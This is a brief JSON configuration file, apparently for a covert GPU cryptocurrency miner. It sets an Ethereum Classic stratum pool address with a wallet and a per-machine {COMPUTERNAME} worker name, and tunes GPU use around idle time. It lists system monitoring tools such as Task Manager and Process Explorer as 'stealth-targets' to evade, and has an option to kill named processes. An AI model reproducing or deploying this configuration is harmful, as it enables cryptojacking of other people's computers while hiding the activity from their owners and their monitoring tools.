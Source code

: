 {
    "url": "stratum://0xA9EeFF6C380bC4dBdcb44D4c49e1c850055b1DdD.{COMPUTERNAME}@etc.2miners.com:1010",
    "algo": "etchash",
    "max-gpu": 50,
    "idle-wait": 0,
    "idle-gpu": 100,
    "stealth": false,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "process-killer": false,
    "kill-targets": "program1.exe,program2.exe,program3.exe"
}
